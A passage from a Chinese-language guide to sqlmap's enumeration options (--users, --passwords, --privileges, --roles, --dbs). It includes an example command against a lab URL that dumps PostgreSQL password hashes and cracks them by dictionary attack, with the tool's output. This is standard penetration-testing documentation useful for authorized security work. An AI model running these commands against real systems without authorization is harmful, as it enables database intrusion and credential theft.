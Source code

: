 参数：--users

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

### 列出并破解数据库用户的 hash

参数：--passwords

当前用户有权限读取包含用户密码的彪的权限时，sqlmap 会现列举出用户，然后列出 hash，并尝试破解。

例子：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass 
```

可以看到 sqlmap 不仅勒出数据库的用户跟密码，同时也识别出是 PostgreSQL 数据库，并询问用户是否采用字典爆破的方式进行破解，这个爆破已经支持 Oracle 和 Microsoft SQL Server。

也可以提供-U 参数来指定爆破哪个用户的 hash。

### 列出数据库管理员权限

参数：--privileges

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的权限，sqlmap 将会告诉你哪个是数据库的超级管理员。也可以用-U 参数指定你想看哪个用户的权限。

### 列出数据库管理员角色

参数：--roles

当前用户有权限读取包含所有用户的表的权限时，很可能列举出每个用户的角色，也可以用-U 参数指定你想看哪个用户的角色。

仅适用于当前数据库是 Oracle 的时候。

### 列出数据库系统的数据库

参数：--dbs
